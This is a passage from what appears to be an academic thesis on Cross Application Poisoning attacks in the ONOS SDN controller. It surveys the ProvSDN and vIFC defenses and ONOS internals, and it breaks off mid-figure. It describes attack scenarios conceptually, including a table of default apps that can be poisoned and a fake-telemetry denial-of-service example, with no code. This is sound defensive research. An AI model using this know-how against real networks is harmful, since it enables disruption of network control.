This is what is called a Cross Application Poisoning attack. Taking this example into the ONOS environment and making it more specific we can say that application A writes to object O1 (having write permission on this object), application B reads the value of O1 and writes to object O2 the value of O1 (having read permissions on O1 and write on O2). In this case, if we imagine that application A is malicious, its goal is to write to object O2, but it has not been granted this permission and therefore cannot do it directly. However, it can do it indirectly by writing to O1, then the legitimate application A2 will write into O2 what the malicious application has decided.

In 2018 Ujcich et al. published the paper "Cross-App Poisoning in Software-Defined Networking" in which for the first time the term "Cross Application Poisoning" was invented. They designed a defense mechanism too that will be studied and discussed in the next section. The main problem with Role Based Access Control is that those policies don't have control over the usage of data and so how data is used after authorization. In their work they also present a working Cross Application Poisoning attack present in ONOS default applications (they used ONOS version 1.8.0, but it has been reproduced also in the latest ONOS version at the time of writing which is 2.7.0) \cite{cap-sdn}:
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Consider the scenario in which an SDN controller provides host and flow rule services among its core functionalities. Suppose an adversary has compromised a host-tracking app that, as part of the app’s normal functionality, has permission to write to the host data store, but does not have permission to write flow rules. A second app performing routing has permission to read the host store and also to read and write flow rules. As part of its functionality, the routing app ensures that all hosts can be routed correctly, and it modifies flow rules as needed. Now suppose that the adversary modifies a host location in the host data store to point to a host that it has compromised. The routing app detects this change and rewrites flow rules to reflect the new location. Without being granted permission, the host-tracking app in this example has succeeded in effectively bypassing the RBAC-based system by having the routing app modify the network’s flow rules on the host-tracking app’s behalf.
\end{quoting}
Figure 1.5 shows a graphical representation of this attack scenario. This CAP attack example will be used as main reference for tests in the next sections. Implementations details for this attack and for a similar one (same concept but achieving different goals) will be provided in Section 2.2 (CAP attacks implementation).

\begin{figure}[t]
\caption{Malicious Host Tracking CAP attack}
\label{fig:cap2}

\includegraphics[width=1.0\textwidth]{resources/Chapter-1/cap2.png}
\centering
\end{figure}

We are going to see the formal definition of a Cross Application Poisoning attack, it's a simplified version of the one provided by Ujcich et al. in their paper. 

Consider:
\begin{itemize}
  \item A set of apps, denoted by A = \{a1, a2, ..., an\}
  \item A set of objects, denoted by O = \{o1, o2, ..., on\}
  \item A set of application read permissions, denoted by PR, that make it possible to access or read from objects.
  \item A set of application write permissions, denoted by PW, that make it possible to write, modify, or delete objects.
\end{itemize}

We then build a bipartite graph having as node classes the applications and the objects with their respective identifiers. The edges will then be added like this: if an application can write into an object, there will be an edge going from the application to the object; if instead an object can be read from an application the direction of the edge will be the opposite. As result we end up with a graph showing the read and write permissions between applications and shared objects. We call this graph the "CAP attack vector graph", and we define a CAP "vector" a chain of permissions that potentially can be exploited to carry out a CAP attack. Figure 1.6 shows the result graph: in the upper part we have three applications (a1, a2 and a3), while in the lower three objects (o1, o2 and o3). All the edges have the label "pX" where X is a number ranging from 1 to 7 because we have seven permissions in our policy example (we assume that the least privilege principle is applied and only the minimum set of permissions is granted). If we take as example the permission edge p1, this means that the application a1 is allowed to write (calling the proper APIs) into object o1. 

We can then define a CAP attack vector a path (remember that this is a bipartite graph and the edges direction will be alternated e.g. a1, o1, a2, o2,...) in the graph with these conditions:
\begin{itemize}
  \item starting with an application aX (aX being any application)
  \item has length greater or equal than 3
  \item has odd length (ends with an object)
\end{itemize}

\begin{figure}[h]
\caption{CAP attack vectors}
\label{fig:cap-vectors}

\includegraphics[width=1.0\textwidth]{resources/Chapter-1/cap-vectors.png}
\centering
\end{figure}

We formally define a CAP attack vector C on the graph g:
\begin{align}
C(g) = \{a1,o1,a2,o2,\;...,\;an,on\} \;|\; n >= 2; 
\end{align}

where n is odd.

In the Cross App Poisoning attack vector graph shown in Figure 1.6 there is only one potentially exploitable path that is $C1(g) = \{a1, o1, a2, o2\}$ using the permissions p1, p2, p4. 

It's crucial to notice two things: (a) it makes sense to build and talk about the CAP attack vector graph only if Security-Mode ONOS is active and the least privilege principle is applied, otherwise the graph would be a complete graph and every path can be an attack vector. (b) not all the CAP attack vectors can be exploited to carry out a working CAP attack: it could be that a data source in the chain is not directly influencing the next write resulting in a unexploitable CAP attack.

Regarding the point (b) there are some examples of failed attempts in Section 4.2 (Vulnerability research). 

\clearpage

\section{Existing solutions}
%% - why defense mechanisms in previous section don't help
In subsection 1.2 (Introduction to CAP attacks) we went through some security mechanisms provided by ONOS like Security-Mode ONOS. We saw also that this mode can help with the security posture of the whole architecture reducing the attack surface exposed to malicious applications. We've also understood that some actions can improve the overall security of the system, even though they are not provided by ONOS (like application and policy file signing). However, unfortunately, these methods are ineffective when it comes to Cross Application Poisoning attacks. We can see this attack methodology as a Security-Mode bypass or an effective way to mislead the security systems and make sure attackers don't get caught.

Other security mechanisms could be implemented to improve the overall system security, but those won't be effective too. For example, any mechanism implementing Role-Based Access Control can be bypassed by these attacks (exactly like Security-Mode ONOS) \cite{secmode}. Data shared using ONOS APIs can be kept confidential using TLS or any other cryptographically secure system, but this won't stop CAP attacks \cite{tlsapis}. Also signing all the trusted applications is not an effective security mechanism for CAP attacks: imagine we have a signed application from a trusted party. Even API abuse prevention is not deemed to be effective against CAP attacks \cite{aegis,dac}. This means we trust the developers and the entity and processes that created the application. So we can assume they didn't implement a CAP attack in that application. But applications can expose data and endpoints in the network (private but even public), this means an attacker could have a way to first of all attack the trusted application, then perform a CAP attack. This induces a false sense of security because we trust the entity that developed the application. Certain SDN controllers implement application sandboxing to prevent applications to use resources that should not be accessed by them (like file system does in operating systems) and this seems to be an effective mechanism; the problem is the concept itself of Cross Application Poisoning attack: a malicious application could induce a legitimate application to perform forbidden action on the first one's behalf \cite{rosemary}.

\medskip
We're going to see some defense mechanisms explained in the literature, how they work and what are their limitations.


\subsection{ProvSDN}

As shown in table regarding security issues in ONOS, the only security mechanisms available for Cross Application Poisoning attacks is ProvSDN. This is a model described in the paper "Cross-App Poisoning in Software-Defined Networking" by Ujcich et al. The authors started analyzing the CAP gadgets exploitable in ONOS default applications using Java abstract syntax trees. An abstract syntax tree is a (tree-based) structured representation of the source code of a program, in this case ONOS apps. They used javaparser to achieve the results, but other products are available for different programming languages. They analyzed all the available applications: 63 excluding the test one (using ONOS version 1.8.0). After this step the authors used field-sensitive interprocedural data flow
analysis to determine the sources and sinks useful to carry out CAP attacks. A "source" is defined as an ONOS API read call, while a "sink" is a ONOS API write call. The table below shows some of the results achieved using this method. The first field is the application vulnerable to CAP attack, the second and the third ones are respectively the source and the sink of the CAP gadget. This means every application having the source write permission can carry out a Cross Application Poisoning attack. As example, an application having the permission APP\_WRITE can poison the application openstacknetworking to achieve the permission FLOWRULE\_WRITE (e.g. attacker modifies the app ID to remove all flows with a given app ID). 

\begin{table}[h]
\begin{tabular}{lllll}
\hline
\thead{App} & \thead{Source} & \thead{Sink} & \thead{Attacker’s capabilities if \\source data have been\\ compromised by attacker} & \\ \cline{1-4}
\hline

\multicolumn{1}{l}{openstacknetworking} & \multicolumn{1}{l}{APP\_READ} & \multicolumn{1}{l}{FLOWRULE\_WRITE} & \makecell[l]{Attacker modifies the app ID\\to remove all flows with a\\given app ID} \\ \cline{1-4}

\multicolumn{1}{l}{openstacknode} & \multicolumn{1}{l}{APP\_READ} & \multicolumn{1}{l}{CLUSTER\_WRITE} & \makecell[l]{Attacker modifies the app ID\\to make an app run for \\leader election in a different\\ONOS topic} \\ \cline{1-4}

\multicolumn{1}{l}{openstacknode} & \multicolumn{1}{l}{APP\_READ} & \multicolumn{1}{l}{GROUP\_WRITE} & \makecell[l]{Attacker modifies the app ID\\to associate an app with a \\particular group handler} \\ \cline{1-4}

\multicolumn{1}{l}{routing} & \multicolumn{1}{l}{APP\_READ} & \multicolumn{1}{l}{CONFIG\_WRITE} & \makecell[l]{Attacker modifies the app ID\\to misapply a BGP configuration} \\ \cline{1-4}

\multicolumn{1}{l}{vtn} & \multicolumn{1}{l}{DEVICE\_READ} & \multicolumn{1}{l}{DRIVER\_WRITE} & \makecell[l]{Attacker misconfigures driver\\setup for a device (i.e., switch)} \\ \cline{1-4}

\multicolumn{1}{l}{vtn} & \multicolumn{1}{l}{HOST\_READ} & \multicolumn{1}{l}{FLOWRULE\_WRITE} & \makecell[l]{Attacker misconfigures flow rules\\based on a host with a particular\\MAC address} \\ \cline{1-4}

\multicolumn{1}{l}{fwd} & \multicolumn{1}{l}{PACKET\_READ} & \multicolumn{1}{l}{FLOWRULE\_WRITE} & \makecell[l]{Attacker injects or modifies an\\incoming packet to poison \\a flow rule} \\ \cline{1-4}

\end{tabular}
\end{table}

%% - spiegazione alto livello provsdn
ProvSDN leverages the concept of information flow: tracking how the data is used after authentication can block or detect Cross Application Poisoning attacks. The authors used a floating label model (based on Myers and Liskov’s Information Flow Control model) to define such approach. The Information flow control policy model is denoted by $I = (A,T, L,Ch, Re)$ and consists of:
\begin{itemize}
    \item\texttt{A set of apps}, denoted by A = \{a1, a2, . . . , ax\}.
    \item\texttt{A set of integrity tags}, denoted by $T = \{\tau1, \tau2, . . . , \tau t\}$.
    \item\texttt{Integrity labels that map apps to a subset of integrity tags}, denoted by $L : A -> P(T)$, where $P(T)$ is the power set of $T$.
    \item\texttt{An enforcement check policy on when to check for violations}, denoted by $Ch \in \{READS, WRITES\}$.
    \item\texttt{A response to perform when information flow is violated}, denoted by $Re \in \\\{BLOCK, WARN, NONE\}$.
\end{itemize}

Then the authors give these two definitions:
\begin{itemize}
    \item An application's integrity is defined relatively to another one: if the integrity tags set is a superset of the second one, the first application has higher integrity.
    \item The integrity of an object is defined as the same of the application having the lowest integrity label that contributed to its creation.
\end{itemize}

The authors defines "app" as both applications and switches, while the "objects" are the data stores and all the entities in the shared controller that can help delivering a Cross Application Poisoning attack. 

From the authors's definition, 
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
ProvSDN hooks all of the controller’s API interfaces to collect provenance from apps, builds a provenance graph, and serves as an online reference monitor by checking API requests against the IFC policy I. This allows us to prevent both known and unknown CAP attacks based on policy.
\end{quoting}


Here the term "data provenance" means tracking the data in order to understand how the system use those elements of information. The W3C PROV data model is used, which defines a directed acyclic graph to understand how data is used by actors in the system.

\begin{figure}[h]
\caption{ProvSDN (Cross-App Poisoning in Software-Defined Networking)}
\label{fig:provsdn}

\includegraphics[width=1\textwidth]{resources/Chapter-1/provsdn.png}
\centering
\end{figure}

The figure 1.7 shows how ProvSDN works at high-level:
\begin{enumerate}
    \item An app makes a NB API request. 
    \item The NB API tentatively retrieves or inserts data related to the request.
    \item The collector processes the call information.
    \item The collector writes the provenance data to the provenance graph.
    \item The online reference monitor checks the provenance graph for violations according to the IFC policy.
    \item The IFC policy’s response is returned to the NB API.
    \item Depending on the response, the data may be returned to the app or may be written to the shared SDN control plane state.
\end{enumerate}


Depending on the policy definition, the behavior is different: (a) if the response is BLOCK, the action will be blocked or an alert will be triggered if action is WARN. (b) if the check policy is WRITES, the checks will be performed and blocked on writes, on reads instead if READS is specified. Integrity labels play a fundamental role here, for example if an application tries to read data generated from another one and the second has lower integrity with respect to the first one, the action will be blocked.

\medskip

The tests performed by the authors show that this approach works well and effectively blocks or detects Cross Application Poisoning attacks. However, even if there are some pros the are also drawbacks (explained by authors too). The main problem is the data-integrity label approach: if a low-integrity application writes on many objects, all those objects cannot be read by applications having an higher integrity label. This is a limiting constraint as the system cannot behave correctly, it's common that security mechanism limit in certain ways the functionalities, but in this case the system could occur in degradation of important operations. Another problem is the overall performance, from the tests performed by the authors ProvSDN seems to increase the ONOS controller packet handling by a factor of 2x on average, which is a considerable time addition in certain types of network. The authors suggest to use this method only \begin{quoting}[font=itshape, begintext={"}, endtext={"}]on the relatively infrequent control plane state changes rather than on each individual packet of a flow\end{quoting} This means that a Cross Application Poisoning attack could remain unnoticed if a frequent control plane state change is used. 

\subsection{vIFC}

The paper "Protecting Virtual Programmable Switches from Cross-App Poisoning (CAP) Attacks" by Lamb et al. highlights some ProvSDN limitations and defines a model that tries to 
\begin{wrapfigure}[17]{h}{0.55\textwidth}
\caption{CAP with virtual switches interactions}
\label{fig:vcap}

\includegraphics[width=0.55\textwidth]{resources/Chapter-1/v-cap.png}
\end{wrapfigure}
address those issues. This new solution is called vIFC with the v standing for virtual, we are going to see the limitations found by the authors \cite{virtual-cap-sdn}. The first limitation arises when the network uses virtual programmable switches. In such scenario a switch is a software deployed in a physical device and this implies some actions that were not considered in the study that created ProvSDN. There are multiple ways to implement virtual switches, one method is to virtualize multiple virtual switch images in a single device through P4 language (Hyper4 being one of the most famous example); another technique uses switch program composition (P4Visor being on the most famous example) merging the code of different switches in a single program; another solution, like P4VBox, divide the available resources and assign them to virtual switches. 

Figure 1.8 graphically shows what a Cross Application Poisoning attack could look like when programmable virtual switches are used. There are three applications used (as in the previous paper both ONOS applications and switches are considered apps) named a1, a2, a3 and three objects named o1, o2, o3. a1 starts the interaction writing something to the object o1, then the application a2 reads from the object o1. Here there is an "anomaly" not taken into consideration in the previous paper: a2 being virtualized in the same environment of a3 can communicate with a3 directly without using the ONOS APIs. Finally a3 writes into the object o3. All the interactions are legitimate since the applications use regular ONOS permissions to access APIs and the internal communication between virtualized switches. ProvSDN cannot detect such Cross Application Poisoning attacks because the internal communication is not tracked by the provenance graph, so it will see only the paths a1-o1-a2 and a3-o3 in which there is not present a CAP attack.
\begin{figure}[h]
\caption{CAP attack leveraging virtual switches}
\label{fig:vifc}

\includegraphics[width=1.0\textwidth]{resources/Chapter-1/vIFC.png}
\centering
\end{figure}
Figure 1.9 describes an example of CAP attack provided in the paper. In this scenario two ONOS applications are used: the InBand Telemetry (INT) App and the Trigger one. The INT application receives statistical data from the network and moves network packets away from busiest switches to avoid overloading; instead the Trigger application is the malicious one. As the figure shows there is only one physical switch which virtualizes three switches (vSwitch A, B and C) connected to five hosts. The switches are monitored using Multi-Hop Route Inspection, doing so it's possible to track switches' queue occupancy. The INT application reroutes traffic when the queue occupancy is above a certain threshold. The Cross Application Poisoning attack works in this way:
\begin{enumerate}
    \item The Trigger application sends a fake telemetry data packet which says that the queue occupancy is above the safety threshold.
    \item The packet sent in point 1 is crafted in a way that an out-of-band flow is needed and vSwitchA sends the packet to vSwitchB using an internal connection inside the physical switch. 
    \item The packet is then sent to the INT application which, as part of its main functions, reroutes networks traffic from the busiest switches to quiet ones. 
\end{enumerate}

This type of interaction can be replicated many times resulting in network congestion and denial of service. This is a simple example but the authors provided another example with 7 steps using FPGA switches achieving the same results.
\medskip

Another problem found by the authors is the use of multiple controllers. They provide another example of Cross Application Poisoning attack leveraging programmable virtual switches and multiple controllers. Consider a scenario in which we have three applications and two controllers. The first application is malicious, while the second and the third one are legitimate. The first and the second application use the first controller, while the third one uses the second controller. In the data-plane there is a single physical switch hosting three virtualized switches. We can then have two types of Cross Application Poisoning attacks: (a) the first one is exactly the same as the previous example, using the malicious application instead of the Trigger app and the second legitimate application taking the role of the INT application. (b) The second attack is carried out crafting a packet that requires using an out-of-band communication between vSwitchA and vSwitchC. Since they use a different controller ProvSDN cannot effectively detect that type of interaction and so the attack remains unnoticed.
\medskip

\begin{wrapfigure}[17]{h}{0.55\textwidth}
\caption{vIFC architecture}
\label{fig:vcap}

\includegraphics[width=0.55\textwidth]{resources/Chapter-1/vifc-arch.png}
\end{wrapfigure}

%% vIFC implementation
The solution to these problems was named by the author "vIFC" or virtual switch information flow control. It's clear as also the authors state that it's an adaptation of ProvSDN to address the issues explained above. A change made in vIFC was to move the collection and detection engine at the control-data interface (in ProvSDN was in the control plane). Doing so it's possible to control the interactions between the controller and virtual switches. In ProvSDN this was not possible since at controller level it's only possible to have a view of the single physical switch. Putting the checks at a lower level mitigates also the problem of multiple controllers, in this case even if two or more controllers are used it's possible to get a provenance graph including CAP attacks this particular environment setup. The elements of the detection model are more or less the same of ProvSDN: a control engine where all the checks are implemented, an IFC policy database where all the policies regarding the allowed flows are stored, a provenance graph and the only additional element is the switch configuration repository (Where the switches configuration are stored). The detection check works as the same as ProvSDN: an application calls an API (like in ProvSDN the checks could be enforced at read or write access), the control engine gathers all the necessary information to understand if the API is allowed or not and adds the entry to the provenance graph to understand if there is a path violating at least one of the IFC policies. If everything is okay the access is allowed, otherwise it's blocked. As the authors state, it's easy to get information about communications between apps and switches, but it's difficult to understand when two switches are communicating using out-of-band channels. To get this information the authors implemented a packet comparison solution in which they compare packets metadata coming from virtualized switches. At every check performed by the control engine not only the interactions between apps and switches are considered, but also the out-of-band communications between virtualized switches.

We saw that vIFC it's not a brand new solution, but it's complementary to ProvSDN and exactly like ProvSDN it has some limitations and drawbacks. One limitation is the performance overhead brought by the runtime checks performed by the control engine (same as ProvSDN). In high performance networks these latency values added by vIFC checks could be very problematic: on average vIFC is ten times slower than the baseline. Moreover, the authors state that another problem could arise when virtual switches are overloaded and vIFC could not behave correctly and so Cross Application Poisoning attacks could remain unnoticed.

\subsection{Changing point of view} 

All the existing solutions providing security mechanisms to Cross Application Poisoning attacks are explained in the previous sections. One is ProvSDN and the second is called vIFC that is an adaptation of the first one with additional defense mechanisms for particular environments. Both solutions use an information flow graph with the aim of tracking data after authorization. The main idea is to understand how data is used by applications authorized to perform restricted API calls. We saw that Cross Application Poisoning attacks can be well represented by paths with spacial characteristics using a bipartite graph composed by applications and data objects (mainly data stores). Even if these solutions provide a model to prevent or detect (depending on administrator's choice) CAP attacks there are some important limitations and problems:

%% - see previous solutions limitations
%% - source code
\begin{itemize}
    \item The integrity labels model used by ProvSDN (even if it makes sense from a security point of view) limits by a lot the network capabilities. As stated from the authors there could be legitimate API calls blocked by this model. 
    \item Moreover, worse, low integrity malicious applications can exploit their status writing on all the objects they have access to. Doing so, all the applications having an integrity status higher than the malicious one won't be able to access the poisoned objects. This is just another way to perform a poisoning attack.
    \item Both solutions dramatically increase network performance overhead, which in certain cases could be crucial. 
    \item In order to build the Information Flow Policy, we need to know which permissions an application need in order to access the required ONOS APIs. With open source applications this is simple (even though there's no need to entirely understand what the application is doing), we just need to search for exposed ONOS APIs in the source code. What about closed source applications? It could even be that we have only the binary (ONOS Java compiled archive, a .oar file) ready to be installed in ONOS environment. If we have to follow the least privilege principle to build the permission graph this is not possible without the permissions needed by applications. Ignoring the permissions graph and using a complete graph (each application have access to all the APIs) can end up in two situations (a) vast majority of API calls are blocked or (b) any application can access all APIs directly and so there is no need to talk about Cross Application Poisoning attack (e.g. if a malicious application wants to install a new flow rule, it just needs to call the proper API).
\end{itemize}

Once listed the limitations of the available solutions, there are some aspects of Software Defined Networks and Cross Application Poisoning attacks that need to be pointed out. First of all installing a new application it's not something very common. Deciding to use a new program in a network is something that should be done very carefully and it's not a matter of seconds: it's a choice that should be analyzed in order to understand which problems could arise with a new network configuration. As example of bad configurations, see the paper "Digital Twin Manager: A Novel Framework to
Handle Conflicting Network Applications" in which the authors provide example of SDN environment where the installed applications have conflicting goals, which results in performance degradation \cite{dt-manager}. It would be better to have a solution in which it doesn't matter if the administrator has access to source code or the permissions list needed for an application to run correctly; even if only the compiled binary is provided, it should be possible to test the environment for Cross Application Poisoning attacks. Since network performance is a critical characteristic, a solution that doesn't affect or has a minimal overhead over traffic latency would be better.
\medskip

To address all these elements, in following sections a new solution is provided. The main idea is to test applications offline rather than online: the security tests are performed only when the administrator decides to install a new application into an existing environment. The tests are performed into an exact copy of the production environment. This solves the problem of performance overhead (as it doesn't have overhead at all), the applications that don't provide the required permissions list can still be tested (even if only a compiled binary is provided) and the capabilities limitation (as it doesn't use any integrity label model).

\clearpage

% ================== CHAPTER 2 ==================
\chapter{System architecture and attacks design}

\section{ONOS internals}

%% Explain how ONOS is built, its internals and go deep explaining ONOS architecture

\subsection{System Components}

%% - OSGi
%%      - https://www.techtarget.com/searchnetworking/definition/OSGi
%%      - https://en.wikipedia.org/wiki/OSGi
The OSGi Alliance (formerly known as the Open Services Gateway initiative) was founded in 1999 to specify and promote open standards for computers and software. Among the original members were by IBM, Motorola, Sun Microsystems (now Oracle), Ericsson and others. Originally the only specification promoted by the foundation was the OSGi standard. Since during time the products and specifications grew even beyond the original purposes, in October 2020 the standardization working group transitioned to the Eclipse Foundation. The OSGi specification provides a framework to deploy services in a shared environment, control how they behave and how they communicate, share resources and data. It is based on a micro-service architecture composed by Java standalone applications defined as extended Java class file archives (JAR files). The OSGi framework is composed by the following layers:

\begin{itemize}
    \item\texttt{Bundles}: Applications come in the form of "bundles", that are JAR compiled libraries with extra manifest headers. In the bundle specification file there are written some important information needed to correctly run the service, but also secondary information available for maintenance. Some important fields are: 1) The bundle name, 2) the symbolic bundle name (specified in reverse hierarchical order, e.g. org.onosproject.testapp), 3) the bundle description, 4) the bundle version, 5) imported packages needed to run the service and 6) exported packages for other bundles.
    \item\texttt{Services}: The services layer provides capabilities for bundles to interact each other using a publish-find-bind model.
    \item\texttt{Services Registry}: The API layer for management services.
    \item\texttt{Life-Cycle}: This layer provides APIs for bundles life-cycle management (install, start, stop, update, and uninstall). Bundles can be installed both locally and remotely. A bundle can be in multiple status: INSTALLED means it has been successfully installed. RESOLVED means that all the requirements are met and it's ready to be installed. ACTIVE means the bundle is running, while UNINSTALLED means it has been correctly uninstalled. STARTING and STOPPING are two self-explanatory temporary statuses.
    \item\texttt{Modules}: This layer takes care of dependencies (how a bundle imports and exports code)-
    \item\texttt{Execution Environment}: Hardware, OS, Java Virtual Machine.
\end{itemize}

The framework specifies also many services in the form of Java interfaces. Bundles can implement these interfaces and register the services using the Service Registry. Some of the most useful ones are: Logging, Administration services, Facilitated device access, HTTP, XML and other protocol helpers and parsers. Many popular products use the OSGi frameworks, notable mentions are: Adobe Experience Manager, IntelliJ, JBoss, NetBeans, Open Daylight Project (open source SDN solution backed by The Linux Foundation), Weblogic, WebSphere and many others. At the time of writing there are multiple implementation choices to use the OSGi framework: Apache Felix, Apache Karaf, Equinox OSGi, Concierge OSGi, Eclipse Gemini. ONOS is implemented using Apache Karaf. We are going to see its architecture and main features.
\medskip

As we can see from the Figure 2.1, Apache Karaf is an extension of an OSGi framework implementation (that's why the Apache Foundation supports both Karaf and Felix). 
\begin{figure}[h]
\caption{Apache Karaf architecture}
\label{fig:karaf}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/karaf.png}
\centering
\end{figure}
The Apache Karaf Documentation lists their key features:
\begin{itemize}
    \item\texttt{Hot deployment}: Install, activate and deactivate applications at runtime
    \item\texttt{Dynamic configuration}: Change configuration settings at runtime
    \item\texttt{Logging system}: Centralized logging system supporting multiple frameworks (such as log4j, slf4j, logback).
    \item\texttt{Provisioning}: Provides the concept of "Karaf Features" which is a way to describe your application.
    \item\texttt{Shell Console}: Complete Unix-like shell console where control the whole environment.
    \item\texttt{Remote management}: Connect using a SSH client.
    \item\texttt{WebConsole}: Connect using a browser.
    \item\texttt{Security}: Karaf fully supports JAAS based security framework.
    \item\texttt{Instances management}: Multiple Karaf instances can be directly managed from the main one.
    \item\texttt{Docker \& Cloud ready}: Manage Docker containers and images using the Karaf shell console.
\end{itemize} 

During the research activity explained in this document all the features listed above except for the multiple Karaf instances management were used \cite{karaf-docs}.
\medskip

%% - https://wiki.onosproject.org/display/ONOS/System+Components
In the Open Network Operating System (ONOS) Documentation we can read its design goals: a) Code Modularity: it should be possible to add new features as self contained units. b) Configurability: it should be possible to add new features both at system startup and runtime. c) Separation of Concern: the separation of the subsystems should be clear in order to facilitate the modularity. d) Protocol Agnosticism: ONOS and its submodules should not be bound to any specific protocol or implementation.

In order to improve the concept of Code Modularity ONOS takes advantage of Maven cumulative pom (Project Object Model) files. Maven uses pom.xml file to correctly compile and build the related service, it contains information like source folder, project and configuration data, dependencies, build directory and so on. In the root folder of ONOS it's placed the root pom.xml file and all the subservices in the source tree uses that root configuration file as parent. Doing so it's possible to compile and build all the services in a separated manner improving code modularity. 

As seen in the first chapter, the ONOS code provides two ways to communicate: the Northbound APIs for the applications and the Southbound APIs for the data-plane objects. Only the network-facing modules are protocol-aware and so they can understand multiple protocols, while all the above components are protocol-agnostic. Doing so it's easy to add new protocol support just by adding a new network facing protocol-aware translator module.

The first chapter explained in a brief manner how ONOS is built, its logical layers and how it works. We mentioned the "subsystems" that are the components that make up a service. E.g. the Device Subsystem manages the inventory of infrastructure devices. In the Figure 2.2
\begin{figure}[h]
\caption{ONOS subsystems}
\label{fig:subsystem}
